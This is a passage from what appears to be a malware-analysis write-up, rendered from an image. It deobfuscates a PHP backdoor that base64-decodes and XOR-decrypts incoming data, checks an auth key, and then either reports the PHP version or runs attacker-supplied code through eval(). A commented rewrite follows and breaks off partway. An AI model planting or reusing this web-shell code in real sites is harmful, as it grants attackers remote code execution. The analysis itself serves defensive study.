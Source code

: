|  }\                                                                   |
| }\                                                                    |
| \                                                                     |
| \$e76477 = \@unserialize(b6ddf34f(base64\_decode(\$e76477),           |
| \$k93f152));                                                          |
|                                                                       |
| \                                                                     |
| if (isset(\$e76477\[\'ak\'\]) && \$x864b367c==\$e76477\[\'ak\'\]){\   |
|  if (\$e76477\[\'a\'\] == \'i\'){\                                    |
|  \$n28c = Array(\'pv\' =\> \@phpversion(),\'sv\' =\> \'1.0-1\',);\    |
|  echo \@serialize(\$n28c);\                                           |
|  }\                                                                   |
|  elseif (\$e76477\[\'a\'\] == \'e\'){\                                |
|  eval/\*v4c8\*/(\$e76477\[\'d\'\]);\                                  |
|  }\                                                                   |
|  exit();\                                                             |
| }                                                                     |
+-----------------------------------------------------------------------+

Finally lets go ahead and do some rewriting and commenting, to get the
complete view of what is going on.

+-----------------------------------------------------------------------+
| \<?php\                                                               |
| \                                                                     |
| // Prevents all errors and set unlimited execution time\              |
| \@ini\_set(\'error\_log\', NULL);\                                    |
| \@ini\_set(\'log\_errors\', 0);\                                      |
| \@ini\_set(\'max\_execution\_time\', 0);\                             |
| \@set\_time\_limit(0);\                                               |
| \                                                                     |
| // This is just a repeating XOR cipher, repeating cipherKey to length |
| of text\                                                              |
| function repXOR(\$text, \$cipherKey){\                                |
|  \$xorStr = \"\";\                                                    |
|  for (\$x = 0; \$x \< strlen(\$text);){\                              |
| for (\$i = 0; \$i \< strlen(\$cipherKey) && \$x \< strlen(\$text);    |
| \$i++, \$x++){\                                                       |
|  \$xorStr .= chr(ord(\$text\[\$x\]) \^ ord(\$cipherKey\[\$i\]));\     |
|  }\                                                                   |